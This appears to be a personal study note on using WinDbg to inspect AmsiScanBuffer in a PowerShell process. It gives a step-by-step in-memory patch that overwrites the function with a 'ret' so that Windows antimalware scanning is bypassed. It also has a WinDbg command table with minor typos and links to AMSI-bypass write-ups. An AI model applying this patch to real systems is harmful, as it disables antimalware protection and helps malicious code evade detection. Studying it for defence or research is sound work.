

### Windbg Commands

| Command   | Description                                                                              |
| --------- | ---------------------------------------------------------------------------------------- |
| x         | examine all symbols that match a given string (eg `x amsi!Amsi*`)                        |
| bg        | set a break point                                                                        |
| g         | let process continue                                                                     |
| r         | dump resister                                                                            |
| r r\<reg> | dump a particular register value                                                         |
| u         | unassemble (go to that memory address)                                                   |
| lm        | lm has a new DML (debugger markup language) mode where module names link to lmv commands |

### Analyzing AmsiScanBuffer

```c
HRESULT AmsiScanBuffer(
  HAMSICONTEXT amsiContext,
  PVOID buffer,
  ULONG length,
  LPCWSTR contentName,
  HAMSISESSION amsiSession,
  AMSI_RESULT *result
);
```

- launch Powershell window
- launch Windbg
- attach Windbg to Powershell session
- in Windbg set a break point for AmsiScanBuffer
```cmd
bp Amsi!AmsiScanBuffer
```
- allow the powershell interactivity to continue using `g` in Windbg
- on the powershell cmd line, type `amsituils` to trigger AMSI
```powershell
'amsiutils'
```


- find the return instruction is c3

- apparently we want to overwrite the address highlighted in gray (TODO: figure out why exactly)
- in Windbg `u 00007ffd72e9387b` to move to that address

- overwrite with this command `eb 00007ffd72e9387b c3 90 90` (90 are nop)

- address is  now altered to `ret` instead of `mov edi,r8d`


### Looking at next 20 commands 64-bit

 - `u rip L20`
- **`u`**: This is the command to disassemble code. It stands for "unassemble."
- **`rip`**: This is the register that holds the address of the next instruction to be executed. In other words, it's the current instruction pointer.
- **`L20`**: This specifies the length of the disassembly in terms of instructions. In this case, `L20` means disassemble the next 20 instructions.
### Websites viewed for reference

- https://thalpius.com/2021/10/14/microsoft-windows-antimalware-scan-interface-bypasses/
- https://www.rewterz.com/blog/how-i-bypassed-amsi-statically-using-windbg
- https://rxored.github.io/post/csharploader/bypassing-amsi-with-csharp/#amsiscanbuffer
- https://medium.com/@sam.rothlisberger/amsi-bypass-memory-patch-technique-in-2024-f5560022752b
- http://windbg.info/doc/1-common-cmds.html
